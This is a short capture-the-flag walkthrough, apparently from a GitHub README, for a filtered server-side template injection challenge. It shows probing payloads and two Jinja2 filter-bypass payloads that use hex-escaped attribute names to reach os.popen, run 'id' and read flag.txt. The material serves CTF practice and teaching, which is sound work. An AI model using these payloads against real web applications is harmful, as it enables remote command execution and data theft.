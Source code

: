 1. Visit the application in a web browser
2. Notice that the input is vulnerable to a Server Side Template Injection (SSTI) vulnerability but the input appears to be filtered. This can be checked by the following payloads
  * `{{8*8}}` => 88
  * asd{}asd => asd{}asd
3. The above payloads confirm that there are elements being filtered because the `*` was stripped from the first payload and the payload was consumed as a template variable as the brackets were not output. However, the second payload was output as is, because the brackets are not filtered, and an instance of single brackets does not get consumed as a template variable
4. Code execution can be achieved in multiple ways, for example the following payload
  * `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
5. Flag can then be read, e.g.
  * `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat\x20flag\x2etxt')|attr('read')()}}`
